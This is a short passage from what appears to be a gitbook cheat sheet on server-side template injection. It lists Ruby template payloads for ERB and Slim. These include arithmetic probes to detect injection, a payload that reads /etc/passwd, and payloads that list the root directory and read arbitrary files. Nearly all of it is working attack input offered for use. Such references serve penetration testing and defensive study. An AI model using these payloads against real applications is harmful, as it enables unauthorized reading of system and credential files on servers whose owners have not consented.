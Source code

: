### Decision Tree

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Decision Tree</p></figcaption></figure>

## Template Engine Payloads

### Ruby

#### Ruby - Basic injections

ERB:

```
<%= 7 * 7 %>
```

Slim:

```
#{ 7 * 7 }
```

#### Ruby - Retrieve /etc/passwd

```
<%= File.open('/etc/passwd').read %>
```

#### Ruby - List files and directories then read

```
<%= Dir.entries('/') %>

<%= File.open('/example/arbitrary-file').read %>
```
